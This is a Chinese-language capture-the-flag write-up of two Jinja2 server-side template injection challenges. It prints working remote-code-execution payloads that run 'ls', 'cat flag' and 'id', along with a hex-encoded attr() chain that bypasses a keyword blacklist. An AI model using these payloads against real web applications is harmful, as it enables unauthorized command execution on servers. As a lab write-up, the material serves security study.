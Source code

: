 ## SSTI1
![image](https://github.com/user-attachments/assets/80582f85-c78e-4581-a1b1-978f59d5d673)
![image](https://github.com/user-attachments/assets/119de55d-3919-4169-a731-c784e14b5a0e)

### 解題過程

直接嘗試 RCE，列出目錄

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -al').read() }}
```

![image](https://github.com/user-attachments/assets/7fa5996c-37dc-4787-9e04-f8ff16551076)

確認目前目錄下存在 `flag` 檔案
接著將他輸出
```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```
![image](https://github.com/user-attachments/assets/8bccdcd5-e1bb-429e-a875-af32b20c4bb5)
flag get!

---

## SSTI2

![Screenshot_2025-05-21_00-50-47](https://github.com/user-attachments/assets/15e13182-7f12-4186-b131-0ddf72b10968)
![Screenshot_2025-05-21_00-51-13](https://github.com/user-attachments/assets/7922c3ba-d8f1-4fed-9fe0-c536d7eb2d94)

### 解題過程

我使用了典型的 Python Jinja2 RCE payload 嘗試取得系統資訊
```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
伺服器回傳
![Screenshot_2025-05-21_00-56-51](https://github.com/user-attachments/assets/aced685a-8f45-4509-a72c-72fa44fd337d)

多次嘗試後發現
- 幾乎所有關鍵字或符號都被過濾：像是 `__`, `.`, `[`, `]`, `|` 等
- 常見的 Python 關鍵字如 `join`, `mro`, `base` 等也被攔截
表示伺服器存在黑名單機制
運用了 @SecGus 在 GitHub 上的技巧：
參考資料：[PayloadsAllTheThings - SSTI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
關鍵概念是：
- 使用 `attr()` 函式來取代點記法；
- 用十六進位表示字串（例如 `__` → `\x5f\x5f`）來繞過字元過濾。
統整出
```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
運作原理如下：

1. 透過 `request` 取得 `application` 對象；
2. 進入其 `__globals__`；
3. 從中找到 `__builtins__`，再透過 `__import__` 載入 `os` 模組；
4. 執行 `os.popen('id').read()`，執行系統命令並回傳輸出。

![Screenshot_2025-05-21_01-05-23](https://github.com/user-attachments/assets/49e44d53-f16d-4c45-8c46-bb7aeeb38524)

flag get!

